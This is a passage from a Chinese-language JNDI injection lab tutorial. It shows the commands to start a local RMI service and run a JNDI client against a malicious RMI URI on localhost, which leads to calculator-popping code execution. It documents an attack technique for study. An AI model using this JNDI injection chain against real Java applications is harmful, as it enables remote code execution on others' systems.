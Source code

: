 可以通过http://localhost:8080来访问到对应的目录即可，说明http环境就起来了

![image-20241121213646238](./main.assets/jndi5.png)

**启动RMI服务端**

在 `JNDI-Injection-Lab` 目录下，运行 RMI 服务。

```cmd
"C:\Program Files\Java\jdk1.8.0_73\bin\java.exe" -cp . server.RMIService
```

**启动JNDI客户端**

在 `JNDI-Injection-Lab` 目录下，运行客户端，指定恶意的 RMI URI。

```cmd
"C:\Program Files\Java\jdk1.8.0_73\bin\java.exe" -cp . client.JNDIClient rmi://127.0.0.1:1099/refObj
```

弹出计算器，恶意代码被执行

![image-20241121220547240](./main.assets/jndi6.png)
